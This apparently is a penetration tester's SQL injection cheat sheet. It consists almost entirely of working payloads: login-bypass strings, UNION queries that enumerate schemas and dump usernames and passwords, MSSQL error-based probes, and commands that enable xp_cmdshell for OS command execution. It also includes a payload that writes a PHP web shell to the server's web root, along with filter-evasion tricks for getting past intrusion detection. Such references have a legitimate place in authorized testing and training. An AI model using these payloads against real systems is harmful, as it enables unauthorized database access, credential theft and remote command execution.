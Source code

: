 # SQL injection 

## Login Bypass:   << replace ' with " if fail
  ' or '1'='1  
  ' or 1=1;--  
  ' or 1=1;#  
  ') or ('x'='x  
  ' or <column> like '%';--  
  ' or 1=1 LIMIT 1;--  

  USERNAME:   ' or 1/*  
  PASSWORD:   */ =1 --  

  USERNAME: admin' or 'a'='a  
  PASSWORD '#  

If the database is mysql, try to dump all login info to files?

Mysql
  '*'   
  '&'  
  '^'  
  '-'  
  ' or true;--   
  ' or 1;--  

union all select "<?php echo shell_exec($_GET['cmd']);?>",2,3,4,5,6 into OUTFILE '/var/www/html/shell.php'

## Enumeration
1. Confirm number of columns
order by 1 -- 100

2. union select
union select 1,2,3,4,5,6,7 to find which column will display info

3. Find databse name, user name, and version.  << must use group_concat for one liner
(select group_concat(database(),0x3a,user(),0x3a,version()))

4. Find table name
table_name                                      from information_schema.tables where table_schema=database()
(select group_concat(table_name) from information_schema.tables where table_schema=database())

5. Find columns 
column_name                                 from information_schema.columns where table_name='<Table_Name>'
column_name                                 from information_schema.columns where table_name=<HEX>
column_name                                 from information_schema.columns where table_name like <HEX>
(select group_concat(column_name) from information_schema.columns where table_name='dev_accounts')
(select group_concat(column_name) from information_schema.columns where table_name=0x6465765f6163636f756e7473)   << possible that some character are filtered out

6. Dump data
(select group_concat(id, 0x3A, username, 0x3A, password) from dev_accounts)

7. One liner to output all corresponding databse with table and columns
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns)
(select group_concat(table_schema,0x3a,table_name,0x3a,column_name) from information_schema.columns where table_schema=database())

	concat(table_schema,0x3a,table_name,0x3a,column_name)               from information_schema.columns where table_schema=database()

### MSSQL Enumeration: Error based
https://www.exploit-db.com/papers/12975/

	Enumerate column and table name
	http://www.example.com/page.asp?id=1' HAVING 1=1--
	Error message: Column 'news.news_id' is invalid                 < table_name.column

	http://www.example.com/page.asp?id=1' GROUP BY news.news_id HAVING 1=1--
	Error message: Column 'news.news_author' is invalid           < table_name.column2

	http://www.example.com/page.asp?id=1' GROUP BY news.news_id,news.news_author HAVING 1=1--
	Error message: Column 'news.news_detail' is invalid             < table_name.column3

	Until no error

	Enumerate version, db name, users:
	http://www.example.com/page.asp?id=1+and+1=convert(int,@@version)--
	http://www.example.com/page.asp?id=1+and+1=convert(int,db_name())--
	http://www.example.com/page.asp?id=1+and+1=convert(int,user_name())--       << Is the user running as dbo or sa?

	xp_cmdshell << if running as database admin
	http://www.example.com/news.asp?id=1; exec master.dbo.xp_cmdshell 'command'
	'; exec master.dbo.xp_cmdshell 'command'



	On MSSQL 2005 you may need to reactivate xp_cmdshell first as it's disabled by default:
	EXEC sp_configure 'show advanced options', 1;--
	RECONFIGURE;-- 
	EXEC sp_configure 'xp_cmdshell', 1;-- 
	RECONFIGURE;--  

	On MSSQL 2000:
	EXEC sp_addextendedproc 'xp_anyname', 'xp_log70.dll';--


## SQL filter bypass
Beyond SQLi: Obfuscate and Bypass - https://www.exploit-db.com/papers/17934/

	AND, OR operators
	AND = &&
	OR = ||

	Comment operator << Mysql
	--  	
	#  
	/**/  

	Regular expression
	It is common that PHPIDS will block operators such as =, ', (), 
	table_name = 'users' X
	table_name between 'a' and 'z' X
	table_name between char(97) and char(122) X

	Convert strings to HEX format.
	table_name between 0x61 and 0x7a
	table_name like 0x7573657273

	Change case
	union > UniOn
	select > SeLect

	Inline comments << Mysql 5.0
	/*! <sql operator> */
